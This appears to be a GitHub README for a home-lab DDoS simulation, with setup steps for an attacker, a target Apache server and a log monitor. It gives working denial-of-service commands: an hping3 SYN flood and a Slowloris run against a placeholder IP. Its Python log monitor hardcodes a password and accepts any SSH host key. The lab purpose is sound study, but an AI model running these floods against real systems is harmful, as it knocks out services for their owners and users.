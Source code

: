 ## disclaimer this article inspired and take by

https://medium.com/@sebastienwebdev/ddos-simulation-910bd66c4220

# DDoS Simulation Guide

## Overview

- **ARM macOS**: Used for coordination, monitoring, and logging.
- **Arch Linux**: Used as the attacker machine to simulate DDoS attacks.
- **ARM Debian Server**: Used as the target server to withstand and log DDoS attacks.

## Step-by-Step Instructions

### Step 1: Setup Coordination & Monitoring on ARM macOS

#### Install Necessary Tools

```bash
$ brew install python3
```

#### Create SSH Key for Password-less Authentication

Generate SSH keys on `mymac` and copy them to `archlinux` and `debian server`:

```bash
$ ssh-keygen -t rsa
$ ssh-copy-id tuser@xx.xxx.xx.xx
$ ssh-copy-id tuser@xx.xxx.xx.xx
```

### Step 2: Set Up ARM Debian Server as the Target Server

#### Update and Upgrade

```bash
$ sudo apt update && sudo apt upgrade -y
```

#### Install a Web Server

Install Apache or Nginx to act as the target server:

```bash
$ sudo apt install apache2 -y
```

#### Start the Web Server

```bash
$ sudo systemctl start apache2
$ sudo systemctl enable apache2
```

#### Configure Logging

Ensure Apache logs are enabled for monitoring the DDoS attack:

```bash
$ sudo nano /etc/apache2/apache2.conf
```

Make sure the `LogLevel` is set to `info` or higher:

```plaintext
LogLevel info
```

Restart Apache to apply changes:

```bash
$ sudo systemctl restart apache2
```

### Step 3: Set Up ArchLinux as the Attacker Machine

#### Update and Upgrade

```bash
$ yay -Sy update && yay -Sy upgrade
```

#### Install DDoS Tools

Install common tools used for simulating DDoS attacks, such as `hping3` and `slowloris`:

```bash
$ sudo yay -S hping slowloris
```

#### Simulate DDoS Attack with hping3

Run a SYN flood attack:

```bash
$ sudo hping3 -S --flood -V -p 80 xx.xxx.xx.xx
```

#### Simulate DDoS Attack with Slowloris

Run a Slowloris attack:

```bash
$ slowloris xx.xxx.xx.xx
```

### Step 4: Monitoring and Logging on ARM macOS

#### Set Up a Monitoring Script

Create a script to monitor Apache logs for signs of DDoS attacks. Save it as `monitor_logs.py`:

```python
import paramiko

ubuntu_ip = "xx.xxx.xx.xx"
user = "xxxx"
password = "your_password"
log_file = "/var/log/apache2/access.log"

def monitor_logs():
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    ssh.connect(ubuntu_ip, username=user, password=password)
    sftp = ssh.open_sftp()
    with sftp.open(log_file, 'r') as f:
        while True:
            line = f.readline()
            if not line:
                break
            print(line.strip())
    sftp.close()
    ssh.close()

if __name__ == "__main__":
    monitor_logs()
```
